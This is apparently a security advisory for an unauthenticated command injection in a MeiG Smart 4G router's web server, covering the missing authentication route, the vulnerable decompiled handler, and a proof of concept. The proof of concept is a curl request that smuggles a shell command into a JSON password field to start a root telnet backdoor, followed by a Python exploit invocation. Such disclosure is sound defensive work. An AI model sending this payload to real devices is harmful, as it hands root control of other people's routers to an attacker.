

# CVE-2026-36356: MeiG Smart FORGE_SLT711 GoAhead — Unauthenticated OS Command Injection (`/action/SetRemoteAccessCfg`)

- **CVE**: CVE-2026-36356
- **CWE**: CWE-78, CWE-306
- **Discoverer**: Daniil Gordeev
- **Disclosed**: 2026-05-03

## Summary

The GoAhead web server bundled with MeiG Smart FORGE_SLT711 4G LTE CPE devices exposes an unauthenticated HTTP endpoint, `/action/SetRemoteAccessCfg`, that interpolates user-controlled JSON input into a shell command without sanitization. A single unauthenticated POST request executes arbitrary commands as **root**.

Two independent root causes: a missing authentication route entry, and an unsafe `sprintf()` → `system()` construction in the handler.

## Affected Products

- **Vendor**: MeiG Smart Technology Co., Ltd. (Shenzhen, China)
- **Product**: FORGE_SLT711 4G LTE CPE Router
- **Confirmed firmware**: `MDM9607.LE.1.0-00110-STD.PROD-1` (modem firmware `BC-MGST711H_1.1.1_EQ101`)
- **Web server**: GoAhead 3.x (Embedthis) with MeiG-custom action handlers (`/usr/bin/goahead`)

The vulnerable code is in MeiG's custom action handler, not in upstream GoAhead. Other firmware versions of this product line are likely affected; not independently verified.

## Test Environment

| | |
|---|---|
| Device | Ortel 4G LTE CPE (OEM: MeiG FORGE_SLT711) |
| SoC | Qualcomm MDM9607, ARMv7 Cortex-A7 |
| Kernel | Linux 3.18.48 |
| Firmware | MDM9607.LE.1.0-00110-STD.PROD-1 |
| Date | 2026-02-21 |

## Technical Details

### Missing authentication (CWE-306)

The GoAhead route configuration `/var/www/route.txt` lists authenticated routes (lines 64–150) using `auth=basic`. `/action/SetRemoteAccessCfg` is **not** in this list. Routing falls through to the catch-all at line 156:

```
route uri=/action handler=action
```

The catch-all has no `auth=basic`, so any HTTP client can invoke `/action/SetRemoteAccessCfg` without credentials.

### Command injection (CWE-78)

The handler at offset `0x0003c6d8` in `/usr/bin/goahead` decompiles to:

```c
char password_buf[64];      // 0x40 bytes on stack
char command_buf[256];      // 0x100 bytes on stack

websGetJsonItemValue(json, "password", STRING, password_buf, 0x40);
sprintf(command_buf, "echo root:\"%s\"|chpasswd", password_buf);
system(command_buf);
```

The `password` field is interpolated inside double quotes. `$(...)` substitution and `` `...` `` backticks expand inside double quotes, so an attacker controls the shell command. `system()` runs as `uid=0` because the GoAhead process runs as root. No input validation, no escaping, no character whitelist.

## Proof of Concept

### Persistent telnet backdoor

```bash
curl -s -X POST http://192.168.1.1/action/SetRemoteAccessCfg \
  -H "Content-Type: application/json" \
  -d '{"password":"$(telnetd -l /bin/sh -p 2323 &)"}'
# Reachable via: telnet 192.168.1.1 2323 (root shell, no password)
```



### Reference Python exploit

`poc_rce.py` (published alongside this advisory):

```sh
python3 poc_rce.py --ip 192.168.1.1 --cmd 'id > /tmp/out'
```

Exploitation is blind — command output is not in the HTTP response.

### Payload constraints

- `password` buffer: 64 bytes
- Final command buffer: 256 bytes
